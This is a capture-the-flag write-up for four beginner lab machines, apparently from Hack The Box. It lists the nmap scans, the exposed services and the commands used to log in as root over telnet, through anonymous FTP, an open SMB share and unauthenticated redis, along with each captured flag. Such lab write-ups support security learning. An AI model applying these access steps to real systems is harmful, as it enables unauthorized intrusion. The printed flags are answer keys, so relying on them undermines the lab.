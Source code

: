 # TIER 0 STARTING POINT BOXES

--------------------------------------------------------------------

**TOOLS USED**: nmap

--------------------------------------------------------------------

## MEOW BOX

**IP Address**: 10.129.70.43

```
nmap -sC -sV -oN nmap.txt 10.129.70.43
```

**EXPOSED PORT (SERVICE)**: 21 (ftp)

```
telnet 10.129.70.43
```

user: root

FLAG: b40abdfe23665f766f9c61ecba8a4c19

--------------------------------------------------------------------

## FAWN BOX

**IP Address**: 10.129.98.220

```
nmap -sC -sV -oN nmap.txt 10.129.98.220
```
**EXPOSED PORT (SERVICE)**: 21 (ftp)

Anonymous ftp login was enabled

```
ftp 10.129.98.220
```

user: anonymous<br>
password: anonymous<br>

```
get flag.txt
```

FLAG: 035db21c881520061c53e0536e44f815

--------------------------------------------------------------------

## DANCING BOX

**IP Address**: 10.129.142.29

```
nmap -sC -sV -oN dancing_nmap.txt 10.129.142.29
```

**EXPOSED PORT (SERVICE)**:<br>
135 (msrpc),<br>
139 (netbios-ssn),<br>
445 (microsoft-ds)

To list the smb shares:

```
smbclient -L 10.129.142.29
```
Shares: ADMIN$, C$, IPC$, WorkShares

WorkShares doesn't require a password. Other ones are default shares ($)

```
smbclient //10.129.142.29/WorkShares
get flag.txt
```

FLAG: 5f61c10dffbc77a704d76016a22f1664

--------------------------------------------------------------------

## REDEEMER BOX

**IP Address**: 10.129.34.251

```
nmap -sC -p- -T5 -oN redeemer_nmap.txt 10.129.34.251
```

-p-: all ports
-T5: speed up scan because -p- is slow (T0 slowest but most evasive, T5 quickest but aggressive)

**EXPOSED PORT (SERVICE)**: 6379 (redis)

Redis: in-memory database

```
redis-cli -h 10.129.34.251
INFO SERVER
INFO KEYSPACE
SELECT 0
KEYS *
GET FLAG
```

FLAG: 03e1d2b376c37ab3f5319922053953eb"
